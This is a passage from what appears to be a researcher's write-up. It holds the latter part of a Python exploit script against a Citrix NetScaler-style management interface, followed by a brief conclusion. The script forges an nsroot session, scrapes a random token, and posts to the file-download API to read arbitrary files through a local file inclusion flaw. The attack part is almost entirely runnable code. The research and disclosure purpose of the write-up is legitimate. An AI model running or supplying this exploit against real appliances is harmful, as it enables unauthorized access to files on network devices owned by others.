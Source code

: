 ```python
		'sid':'nsroot',
		'username':'nsroot',
		'force_setup':'1'
	}

	session.get(url=url, params=params, verify=False)

def get_rand(base_url, session):
	url = '{0}/menu/stc'.format(base_url)
	r = session.get(url=url, verify=False)

	for line in r.text.split('\n'):
		if 'var rand =' in line:
			rand = line.split('"')[1]
			return rand

def do_lfi(base_url, session, rand):
	url = '{0}/rapi/filedownload?filter=path:{1}'.format(base_url, PAYLOAD)

	headers = {
		'Content-Type':'application/xml',
		'X-NITRO-USER':random_string(),
		'X-NITRO-PASS':random_string(),
		'rand_key':rand
	}

	data = '<clipermission></clipermission>'

	r = session.post(url=url, headers=headers, data=data, verify=False)
	print (r.text)

def main(base_url):
	print ('[-] Creating session..')
	session = requests.Session()
	create_session(base_url, session)
	print ('[+] Got session: {0}'.format(session.cookies.get_dict()['SESSID']))

	print('[-] Fixing session..')
	fix_session(base_url, session)

	print ('[-] Getting rand..')
	rand = get_rand(base_url, session)
	print ('[+] Got rand: {0}'.format(rand))

	print ('[-] Re-breaking session..')
	create_session(base_url, session)

	print ('[-] Getting file..')
	do_lfi(base_url, session, rand)

if __name__ == '__main__':
	base_url = sys.argv[1]
	main(base_url)
```

## Conclusion
Well, I have to say, this adventure was a lot more fun than I anticipated. It might not be high risk vulnerabilities, but I think there is some cool stuff in there. And, my gut tells me there has to be more!
